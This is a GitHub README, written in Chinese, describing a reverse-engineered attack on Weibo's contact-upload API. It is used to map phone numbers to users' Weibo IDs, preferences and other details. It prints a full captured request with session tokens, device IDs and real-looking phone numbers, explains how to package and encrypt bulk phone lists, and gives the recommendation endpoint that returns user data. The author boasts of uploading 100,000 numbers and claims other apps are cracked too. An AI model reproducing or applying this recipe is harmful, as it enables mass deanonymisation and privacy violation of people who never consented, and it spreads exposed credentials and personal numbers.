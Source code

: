 
##weibo-encryption 破解微博的参数,通过上传电话号码获取用户信息比如微博id，用户喜好等，微博采用的是叠加之后在溢出，
					一个账号基本可以一直上传，本人单个账号上传了10w电话，有效



##加密原理

* 通过反编译微博APP，破解接口中的参数，上传接口为：
    *  POST https://api.weibo.cn/2/contacts/upload/full?lang=zh_CN&sflag=1&cum=B8796A40 HTTP/1.1
		Host: api.weibo.cn
		Connection: keep-alive
		Content-Length: 4446
		X-Validator: rgk1Lc6kd3eA79qYKfpLS3Suhno0nHMVppZ69xmngzU=
		User-Agent: Nexus 5_4.4.3_weibo_8.10.0_android
		X-Sessionid: af63486f-fcd7-4155-b432-f9bfecf8a604
		Content-Type: multipart/form-data;boundary=------------1538995732566
		X-Log-Uid: 1904702193
		Accept-Encoding: gzip, deflate

		--------------1538995732566
		Content-Disposition: form-data; name="v_f"
		Content-Type: text/plain;charset:"UTF-8"
		Content-Transfer-Encoding: 8bit

		2
		--------------1538995732566
		Content-Disposition: form-data; name="uid"
		Content-Type: text/plain;charset:"UTF-8"
		Content-Transfer-Encoding: 8bit

		1904702193
		--------------1538995732566
		Content-Disposition: form-data; name="moduleID"
		Content-Type: text/plain;charset:"UTF-8"
		Content-Transfer-Encoding: 8bit

		700
		--------------1538995732566
		Content-Disposition: form-data; name="wb_version"
		Content-Type: text/plain;charset:"UTF-8"
		Content-Transfer-Encoding: 8bit

		3755
		--------------1538995732566
		Content-Disposition: form-data; name="devid"
		Content-Type: text/plain;charset:"UTF-8"
		Content-Transfer-Encoding: 8bit

		359250051841177
		--------------1538995732566
		Content-Disposition: form-data; name="c"
		Content-Type: text/plain;charset:"UTF-8"
		Content-Transfer-Encoding: 8bit

		android
		--------------1538995732566
		Content-Disposition: form-data; name="wm"
		Content-Type: text/plain;charset:"UTF-8"
		Content-Transfer-Encoding: 8bit

		5311_4002
		--------------1538995732566
		Content-Disposition: form-data; name="from"
		Content-Type: text/plain;charset:"UTF-8"
		Content-Transfer-Encoding: 8bit

		108A095010
		--------------1538995732566
		Content-Disposition: form-data; name="aid"
		Content-Type: text/plain;charset:"UTF-8"
		Content-Transfer-Encoding: 8bit

		01AiTwKue6ovmaTxynr545K7O4UnwUygYoWqJJob7_9gc8Is4.
		--------------1538995732566
		Content-Disposition: form-data; name="networktype"
		Content-Type: text/plain;charset:"UTF-8"
		Content-Transfer-Encoding: 8bit

		wifi
		--------------1538995732566
		Content-Disposition: form-data; name="skin"
		Content-Type: text/plain;charset:"UTF-8"
		Content-Transfer-Encoding: 8bit

		default
		--------------1538995732566
		Content-Disposition: form-data; name="ext"
		Content-Type: text/plain;charset:"UTF-8"
		Content-Transfer-Encoding: 8bit

		contactshow
		--------------1538995732566
		Content-Disposition: form-data; name="business"
		Content-Type: text/plain;charset:"UTF-8"
		Content-Transfer-Encoding: 8bit

		account
		--------------1538995732566
		Content-Disposition: form-data; name="i"
		Content-Type: text/plain;charset:"UTF-8"
		Content-Transfer-Encoding: 8bit

		dab8b20
		--------------1538995732566
		Content-Disposition: form-data; name="client_ua"
		Content-Type: text/plain;charset:"UTF-8"
		Content-Transfer-Encoding: 8bit

		LGE-Nexus 5__weibo__8.10.0__android__android4.4.3
		--------------1538995732566
		Content-Disposition: form-data; name="content"
		Content-Type: text/plain;charset:"UTF-8"
		Content-Transfer-Encoding: 8bit

		H4sIAAAAAAAAALzVy2oUQRQG4FcJWYuec6rObVyp08qATMIkjqhxUbeGQIgguPDtrVEysSdOFIRe
		9KKq/qa/bv6q/nT6cnizWi+2r15slldfr263w+ZidbZehKewG55vzpar5eLi+jadvG/X+cvJxffb
		8gx/rb7rS4bqWUy5qQSA0HJOGL25uCsq73Kv1wsMJCxBIttu5nJ4+/zyw/lw9a3fUku7uTlMbIbt
		ggANAewSIRrTx938sF7ea0+f/LffKeSCASkyNfGUWbSk/jZJSA3tzs9uTq4Oesw/TczlH6FQ//je
		DGrLDpwDcfaRUqVcR5z4reMe9+8Tc/kbphhSizXpmFNMGMZMTfvQinDLD/pz1D9NzOVX96KcGLGg
		SKqOkaEKgrNiYT/wm8LjfrXIs/aHCmWgUDOqAGiuschYqbhnNU/7/gThaHe6P/ZnkpjLD2ZWqFXA
		BKEAth0+Ekvum7q0uPf/lOEj/ZkmZuuPKhgUhX5YVifEZjlWTRZwdB7h3h/VeHcd9/+emMtP1ELl
		RLW6tZiyuwWmXDhw/xc0POh/3xx/3b8wp5+rjJJbE0FUCr1IGt241QCieSx7vwTuvm486p8k5vIH
		8hL7M/q575Q4lt4hDRhSYkrB274/ImzMJvFofyaJf/N//gEAAP//AwAW5hQLQQgAAA==

		--------------1538995732566
		Content-Disposition: form-data; name="gsid"
		Content-Type: text/plain;charset:"UTF-8"
		Content-Transfer-Encoding: 8bit

		_2A252tP3QDeRxGedH61YW8CzNwj-IHXVT4HYYrDV6PUJbkdAKLWenkWpNUPJ5hWKuVmAxRFNER5_lb3ce9iGUmKDq
		--------------1538995732566
		Content-Disposition: form-data; name="s"
		Content-Type: text/plain;charset:"UTF-8"
		Content-Transfer-Encoding: 8bit

		f287954d
		--------------1538995732566
		Content-Disposition: form-data; name="oldwm"
		Content-Type: text/plain;charset:"UTF-8"
		Content-Transfer-Encoding: 8bit

		5311_4002
		--------------1538995732566
		Content-Disposition: form-data; name="v_p"
		Content-Type: text/plain;charset:"UTF-8"
		Content-Transfer-Encoding: 8bit

		66
		--------------1538995732566
		Content-Disposition: form-data; name="ua"
		Content-Type: text/plain;charset:"UTF-8"
		Content-Transfer-Encoding: 8bit

		LGE-Nexus 5__weibo__8.10.0__android__android4.4.3
		--------------1538995732566
		Content-Disposition: form-data; name="ft"
		Content-Type: text/plain;charset:"UTF-8"
		Content-Transfer-Encoding: 8bit

		0
		--------------1538995732566--
	*  “--------------1538995732566--”：为时间轴
    *  “X-Validator: rgk1Lc6kd3eA79qYKfpLS3Suhno0nHMVppZ69xmngzU=”：通过登录获取的用户信息，登录知道可以保持不变
    *  “X-Sessionid: af63486f-fcd7-4155-b432-f9bfecf8a604”：通过登录的用户信息，登录之后可以保持不变
    *  “Content-Disposition: form-data; name="uid"”:登录后用户id,
    *  “Content-Disposition: form-data; name="devid"”：设备id，同一台设备保持不变
    *  “Content-Disposition: form-data; name="aid"”：登录之后保持不变
    *  “Content-Disposition: form-data; name="content"”：上传用户的参数，采用了多层加密
	*  其他参数都可以保持不变
	*	最重要的是content参数的加密
			*content是里面是手机号码进行加密
			
			*每个手机号码拼成：“[\"BEGIN:VCARD\\r\\nVERSION:3.0\\r\\nPRODID:Sina Weibo      Sync/1.0\\r\\nUID:e6d7b85566fea4be1c5ad0850be24208\\r\\nFN:cS \\r\\nTEL;TYPE\\u003dcell:15099916550\\r\\nREV:20180814T135035Z\\r\\nEND:VCARD\\r\\n\",\"BEGIN:VCARD\\r\\nVERSION:3.0\\r\\nPRODID:Sina Weibo Sync/1.0\\r\\nUID:1a3cec7e59e419473b0e1822479967a8\\r\\nFN:15989297907\\r\\nTEL;TYPE\\u003dcell:13265636450\\r\\nREV:20180814T135035Z\\r\\nEND:VCARD\\r\\n\",\"BEGIN:VCARD\\r\\nVERSION:3.0\\r\\nPRODID:Sina Weibo Sync/1.0\\r\\nUID:923bc1312452e69ab567ca5e7a627818\\r\\nFN:15989297907\\r\\nTEL;TYPE\\u003dcell:15989297907\\r\\nREV:20180814T135035Z\\r\\nEND:VCARD\\r\\n\"]”
			
			*最后所有电话号码结果为：content= “[[\"BEGIN:VCARD\\r\\nVERSION:3.0\\r\\nPRODID:Sina Weibo Sync/1.0\\r\\nUID:e6d7b85566fea4be1c5ad0850be24208\\r\\nFN:cS \\r\\nTEL;TYPE\\u003dcell:15099916550\\r\\nREV:20180814T135035Z\\r\\nEND:VCARD\\r\\n\",\"BEGIN:VCARD\\r\\nVERSION:3.0\\r\\nPRODID:Sina Weibo Sync/1.0\\r\\nUID:1a3cec7e59e419473b0e1822479967a8\\r\\nFN:15989297907\\r\\nTEL;TYPE\\u003dcell:13265636450\\r\\nREV:20180814T135035Z\\r\\nEND:VCARD\\r\\n\",\"BEGIN:VCARD\\r\\nVERSION:3.0\\r\\nPRODID:Sina Weibo Sync/1.0\\r\\nUID:923bc1312452e69ab567ca5e7a627818\\r\\nFN:15989297907\\r\\nTEL;TYPE\\u003dcell:15989297907\\r\\nREV:20180814T135035Z\\r\\nEND:VCARD\\r\\n\"],[\"BEGIN:VCARD\\r\\nVERSION:3.0\\r\\nPRODID:Sina Weibo Sync/1.0\\r\\nUID:e6d7b85566fea4be1c5ad0850be24208\\r\\nFN:cS \\r\\nTEL;TYPE\\u003dcell:15099916550\\r\\nREV:20180814T135035Z\\r\\nEND:VCARD\\r\\n\",\"BEGIN:VCARD\\r\\nVERSION:3.0\\r\\nPRODID:Sina Weibo Sync/1.0\\r\\nUID:1a3cec7e59e419473b0e1822479967a8\\r\\nFN:15989297907\\r\\nTEL;TYPE\\u003dcell:13265636450\\r\\nREV:20180814T135035Z\\r\\nEND:VCARD\\r\\n\",\"BEGIN:VCARD\\r\\nVERSION:3.0\\r\\nPRODID:Sina Weibo Sync/1.0\\r\\nUID:923bc1312452e69ab567ca5e7a627818\\r\\nFN:15989297907\\r\\nTEL;TYPE\\u003dcell:15989297907\\r\\nREV:20180814T135035Z\\r\\nEND:VCARD\\r\\n\"]]”
			
			*把所有电话号码拼成的结果进行加密Encripy.a(getPhoneDatas(content))，得到即为content
			
			*返回的结果没有加密
				*通过urlhttps://api.weibo.cn/2/friendships/contact_recommend_user?networktype=wifi&uicode=10000668&moduleID=701&wb_version=3728&user_id=6637823586&c=android&i=dab8b20&s=6730418a&ft=0&ua=LGE-Nexus%205__weibo__8.8.1__android__android4.4.3&wm=90061_90050&aid=01AiTwKue6ovmaTxynr545K7Oq5aE-EeMCqe8FuEKB76UmovY.&v_f=2&v_p=63&from=1088195010&gdid=359250051841177&gsid=_2A252d_LKDeRxGeBI6FUZ8i3JwzqIHXVTJQECrDV6PUJbmdAKLVTekWpNRpjm1YGrACObX0lHp19dMtwNQwIoQvSo&lang=zh_CN&skin=default&oldwm=90061_90050&scene=1&sflag=1&luicode=10000667&has_member=1&cum=D0D4D0E2
				获取上传的用户信息，可以获取到用户id，喜好以及电话号码等信息
			
	

##需要注意的问题
* 上传到500左右返回的信息会丢失之前上传的，但是新上传的手机号码可以返回信息

##有问题反馈

* 陌陌，微博，网易云，keeper，悦动圈，酷狗，百度等app也已经破解，后期持续更新
* 有问题可以QQ群：193990770，帮忙点个星星，谢谢！！！


##代码样例
* https://github.com/yuanchao1893/weibo_encryption/tree/master/example

